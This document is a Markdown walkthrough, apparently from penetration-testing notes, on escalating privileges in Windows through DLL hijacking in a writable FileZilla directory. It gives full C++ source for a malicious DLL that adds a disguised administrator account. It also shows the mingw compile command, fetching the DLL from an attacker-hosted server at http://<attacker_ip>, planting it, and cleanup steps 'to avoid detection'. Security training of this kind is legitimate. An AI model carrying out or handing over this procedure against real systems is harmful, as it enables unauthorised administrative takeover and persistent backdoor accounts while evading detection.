 ## DLL Hijacking

### Overview
Dynamic Link Libraries (DLLs) are essential components in Windows systems that provide shared functionality for applications and services. When an application or service looks for a required DLL, it follows a predefined **DLL search order**:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

A misconfiguration or missing DLL can create an opportunity for **DLL Hijacking**, where a malicious DLL placed in a writable directory is loaded instead of the legitimate one. If the application runs with elevated privileges, the malicious DLL will execute with the same level of access.

---

### Step 1: Identify Writable Directories and Missing DLLs
First, identify directories where you have write permissions and locate missing DLLs being searched for by applications or services.

1. **Search for Writable Directories**:
   Run **WinRecon.ps1** to enumerate writable directories and check for vulnerable DLLs:
   - **Option 2**: Run Custom Recon - (Select which functions to enable).
   - **Option 18**: Perform DLL Hijacking checks against known vulnerable software and directories.

Example Output:
```plaintext
===================================================

               DLL Hijacking Check

===================================================

[+] Program: 7-Zip 21.07 (x64)
    Identifier: 7-Zip
    Version: 21.07
    Path: C:\Program Files\7-Zip\
    Path is Not Writable

[+] Program: XAMPP
    Identifier: xampp
    Version: 7.4.29-1
    Path: C:\xampp
    [!] Path is Writable

[+] Program: VMware Tools
    Identifier: {4FE02FF2-2194-4E1D-8B04-F934655966F9}
    Version: 11.3.0.18090558
    Path: C:\Program Files\VMware\VMware Tools\
    Path is Not Writable

[+] Program: FileZilla 3.63.1
    Identifier: FileZilla Client
    Version: 3.63.1
    Path: C:\FileZilla\FileZilla FTP Client
    [!] Path is Writable
    Vulnerable DLL: TextShaping.dll

[+] Program: KeePass Password Safe 2.51.1
    Identifier: KeePassPasswordSafe2_is1
    Version: 2.51.1
    Path: C:\Program Files\KeePass Password Safe 2\
    Path is Not Writable

[+] Program: Microsoft Edge
    Identifier: Microsoft Edge
    Version: 129.0.2792.52
    Path: C:\Program Files (x86)\Microsoft\Edge\Application
    Path is Not Writable

[+] Program: Microsoft Edge WebView2 Runtime
    Identifier: Microsoft EdgeWebView
    Version: 128.0.2739.79
    Path: C:\Program Files (x86)\Microsoft\EdgeWebView\Application
    Path is Not Writable

[+] Checking Operating System for Vulnerabilities...

[+] OS: Microsoft Windows 11 Pro
    Version: 10.0.22621
    Path: C:\Windows\
    Path is Not Writable
    Vulnerable DLL: apds.dll
```

In this example, the `FileZilla` application directory is writable, and the program attempts to load `TextShaping.dll`, making it a potential candidate for DLL hijacking.

---

### Step 2: Confirm Writable Permissions
Verify that the identified directory allows you to write files:

```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

Check if the file was successfully created:
```powershell
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

If successful, you have sufficient permissions to place a malicious DLL in this directory.

---

### Step 3: Create a Malicious DLL
The goal is to create a DLL that executes malicious commands when loaded. In this case, the DLL will add a new user to the local Administrators group.

#### Malicious DLL Code in C++:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            system("net user taskmgrsvc Password123! /add");
            system("net localgroup administrators taskmgrsvc /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

#### Compile the DLL:
On your Kali machine, cross-compile the DLL using `mingw-w64`:

```bash
x86_64-w64-mingw32-gcc malicious_dll.cpp --shared -o TextShaping.dll
```

- **`--shared`**: Generates a DLL file.
- **`TextShaping.dll`**: The name must match the vulnerable DLL identified earlier.

---

### Step 4: Transfer the DLL to the Target Directory
Host the DLL on your attacker machine and download it to the writable directory on the target system:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target system, download the DLL using PowerShell:
   ```powershell
   iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'TextShaping.dll'
   ```
   ```powershell
   powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>/TextShaping.dll', 'TextShaping.dll')"
   ```
3. Move File
   ```powershell
   move TextShaping.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
4. Confirm the file exists:
   ```powershell
   ls 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```

---

### Step 5: Trigger the DLL Hijacking
The DLL hijacking will occur when a higher-privileged user or system process runs the application. For example, when the `FileZilla` application is executed by an administrator or another user with elevated permissions, the malicious DLL will be loaded from the writable directory.

Wait for the application to be executed by someone with higher privileges.

---

### Step 6: Verify Exploitation
After the DLL executes, verify that the new user has been created and added to the Administrators group:

1. Check for the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the malicious DLL was loaded, and the `taskmgrsvc` account was successfully added to the Administrators group.

---

### Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious DLL:
   ```powershell
   del 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Missing DLLs provide a great opportunity for code execution, especially if the search order allows loading from writable directories.
- Always verify writable permissions before deploying malicious DLLs.

---

### References
- [HackTricks - DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

---
